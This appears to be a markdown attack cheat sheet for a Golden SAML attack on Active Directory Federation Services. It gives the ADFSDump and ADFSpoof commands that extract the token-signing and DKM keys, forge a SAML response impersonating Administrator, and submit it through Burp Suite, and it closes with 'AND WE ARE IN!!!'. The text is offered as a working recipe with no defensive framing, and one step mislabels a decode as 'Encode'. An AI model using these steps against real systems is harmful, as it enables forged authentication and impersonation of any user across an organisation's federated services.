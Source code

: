 # Golden SAML attack

## Tools: ADFSDump, ADFSpoof, ADFSDump-PS

### With this attack, we forge a SAML token that we can use to authenticate to ANY service we want impersonating ANY user within the corporate environment.

### To perform this attack, we’ll need the private key that signs the SAML objects (similarly to the need for the KRBTGT in a golden ticket). For this private key, we don’t need a domain admin access, we only need the AD FS user account.

### For a Golden SAML attack, we need to first compromise the AD FS service account, Then we can use tools such as ADFSDump to extract the required information:

 1) The token signing certificate and its private key

 2) The Distributed Key Manager (DKM) key from Active Directory

 3) The list of services for which the AD FS server is configured to be an identity provider

## Commands:

#### 1) Extract the Distribution Key Manager (DKM) Private Key and the Encrypted Token Signing Key (TKS) as well as the Issuer Identifier and the Relting Party Trust Information as well

    .\ADFSDump.exe 

#### 2) Encode the TKS Key in Base64 format

    cat TKSKey.txt | base64 -d > TKSKey.bin 

#### 3) Convert the DKM Key in Hex format

    cat DKMKey.txt | tr -d "-" | xxd -r -p > DKMKey.bin 

    python3 ADFSpoof.py -b TKSKey.bin DKMKey.bin -s 'ADFS_SERVER' saml2 --endpoint 'https://saml2response.domain.local/adfs/saml/ENDPOINT_URL_FOR_SAML_RESPONSE' --nameidformat 'urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress' --nameid 'Administrator@DOMAIN.LOCAL' --rpidentifier 'https://saml2response.domain.local/RELYING_PARTY_IDENTIFIER_ENDPOINT' --assertions 'SAML assertions to be included in the SAML response.'

### TIP: Refer the format in the tool documentation

### Then browse to:

 - https://saml2response.domain.local/adfs/saml/ENDPOINT_URL_FOR_SAML_RESPONSE

### And capture the POST request in Burpsuite.

### Then token should be included in the body of the request on a form data field typically named:

 - SAMLResponse=INSERT_GOLDEN_SAML_TOKEN_HERE

### Then set the header:

 - Content-Type: application/x-www-form-urlencoded

## AND WE ARE IN!!!
